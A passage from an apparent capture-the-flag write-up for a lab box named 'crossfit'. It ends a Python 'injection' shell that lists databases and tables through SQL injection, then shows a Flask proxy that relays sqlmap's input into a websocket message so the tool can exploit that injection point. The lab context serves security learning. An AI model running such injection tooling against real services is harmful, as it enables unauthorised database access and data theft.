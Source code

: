        def do_exit(self, args):
            return True
    
    
    term = Term()
    term.cmdloop()
    
    

Now in the shell, shows additional commands:

    
    
    injection> help
    
    Documented commands (type help <topic>):
    ========================================
    help
    
    Undocumented commands:
    ======================
    dbs  exit  tables
    

Running them works as expected:

    
    
    injection> tables crossfit
    membership_plans
    injection> tables employees
    employees
    password_reset
    

It would be easy to add commands to list columns in a given table and to dump
rows from the table as well.

#### sqlmap + flask

An alternative to doing the SQL injections manually would be to use the power
of something like `sqlpmap` to enumerate this database. As of the time of this
post, there isn’t a way to target a websocket connection in `sqlmap`. I’ll
write a simple Flask webserver that will get a request with a single
parameter, and use that to make the websocket connection with that parameter
as the injection. This allows `sqlmap` to see a standard HTTP server, but then
it does the websockets injection.

    
    
    #!/usr/bin/env python3
    
    import json
    import signal
    import websocket
    from flask import *
    
    
    app = Flask(__name__)
    
    
    @app.route("/")
    def index():
        ws = websocket.create_connection('ws://gym.crossfit.htb/ws/')
        data = ws.recv()
        token = json.loads(data)['token']
        params = request.args['params']
        ws.send(f'{{"message":"available","params":"{params}", "token": "{token}"}}')
        data = ws.recv()
        return json.loads(data)['debug']
    